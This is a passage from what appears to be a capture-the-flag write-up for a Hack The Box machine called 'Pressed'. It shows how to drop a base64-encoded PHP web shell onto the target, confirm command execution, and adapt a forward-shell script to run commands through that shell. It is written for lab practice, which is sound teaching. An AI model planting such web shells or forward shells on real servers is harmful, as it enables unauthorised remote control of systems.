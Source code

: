 However, this gets the whole HTML index.php page, which breaks the forward shell. We have to put our web shell on a completely brand new page. 

```bash
echo -n '<?php system($_REQUEST["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pOyA/Pg==

echo PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pOyA/Pg== | base64 -d > shell.php
```

```bash
#First check we are in the right dir
cmd=pwd

#RESPONSE
/var/www/html
```

Now let’s execute it:

![image.png]({{ site.baseurl }}/assets/pressed/image%2021.png)

We see our shell.php:

![image.png]({{ site.baseurl }}/assets/pressed/image%2022.png)

Let’s navigate to it and try:

```bash
http://pressed.htb/shell.php?cmd=id
```

![image.png]({{ site.baseurl }}/assets/pressed/image%2023.png)

It works. Now let’s try the forward shell, to change in forward-shell.py:

```bash
#CHANGE THE FOLLOWING TO:
#TO DEBUG, WE ARE ON A DIFFERENT PROXY
def __init__(self, interval=1.3, proxies='http://127.0.0.1:8082')
        self.url = r"http://pressed.htb/shell.php"
 
  def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8082"):
  
  #comment out
#        #headers = {'User-Agent': payload}   
data = {'cmd': payload} 

        try:
            r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)   
```

Let’s execute:

```bash
python3 forward-shell.py
```
